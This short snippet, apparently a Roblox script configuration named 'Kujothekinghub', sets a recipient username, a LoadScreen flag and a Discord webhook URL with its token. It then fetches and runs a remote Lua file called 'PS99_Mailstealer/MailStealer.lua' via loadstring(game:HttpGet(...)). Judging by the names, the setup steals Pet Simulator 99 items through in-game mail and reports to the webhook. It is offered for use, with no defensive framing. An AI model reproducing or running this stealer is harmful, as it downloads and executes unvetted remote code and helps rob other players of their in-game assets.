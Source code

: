 # Kujothekinghub
Username = Kujotheking LoadScreen = true  Webhook = https://discord.com/api/webhooks/1222304237149487266/AEZYqVmRejqqrNdOxJlhJX1BGuQCMyqeqVS3jomF5sW2I4WMnaPKRfIagHTaBeIaGLtz  loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
